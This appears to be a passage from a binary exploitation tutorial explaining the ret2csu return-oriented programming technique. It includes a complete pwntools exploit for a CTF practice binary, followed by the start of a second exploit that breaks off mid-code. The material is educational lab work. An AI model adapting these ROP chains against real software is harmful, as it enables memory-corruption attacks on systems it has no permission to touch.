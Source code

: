 Imagine you want to make a syscall or call a function like `write()` but need specific values in the `rdx` and `rsi` registers as parameters. Normally, you'd look for gadgets that set these registers directly, but you can't find any.

Here's where **ret2csu** comes into play:

1. **Set Up the Registers**: Use the first magic gadget to pop values off the stack and into rbx, rbp, r12 (edi), r13 (rsi), r14 (rdx), and r15.
2. **Use the Second Gadget**: With those registers set, you use the second gadget. This lets you move your chosen values into `rdx` and `rsi` (from r14 and r13, respectively), readying parameters for a function call. Moreover, by controlling `r15` and `rbx`, you can make the program call a function located at the address you calculate and place into `[r15 + rbx*8]`.

You have an [**example using this technique and explaining it here**](https://ir0nstone.gitbook.io/notes/types/stack/ret2csu/exploitation), and this is the final exploit it used:

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401224 # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028

rop.raw('A' * 40)
rop.gets(RW_LOC)
rop.raw(POP_CHAIN)
rop.raw(0)                      # r12
rop.raw(0)                      # r13
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call

p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))            # send to gets() so it's written
print(p.recvline())                        # should receive "Awesome work!"
```

{% hint style="warning" %}
Note that the previous exploit isn't meant to do a **`RCE`**, it's meant to just call a function called **`win`** (taking the address of `win` from stdin calling gets in the ROP chain and storing it in r15) with a third argument with the value `0xdeadbeefcafed00d`.
{% endhint %}

### Bypassing the call and reaching ret

The following exploit was extracted [**from this page**](https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html) where the **ret2csu** is used but instead of using the call, it's **bypassing the comparisons and reaching the `ret`** after the call:

```python
# Code from https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html
# This exploit is based off of: https://www.rootnetsec.com/ropemporium-ret2csu/

from pwn import *

# Establish the target process
target = process('./ret2csu')
#gdb.attach(target, gdbscript = 'b *    0x4007b0')

# Our two __libc_csu_init rop gadgets
csuGadget0 = p64(0x40089a)
csuGadget1 = p64(0x400880)

# Address of ret2win and _init pointer
```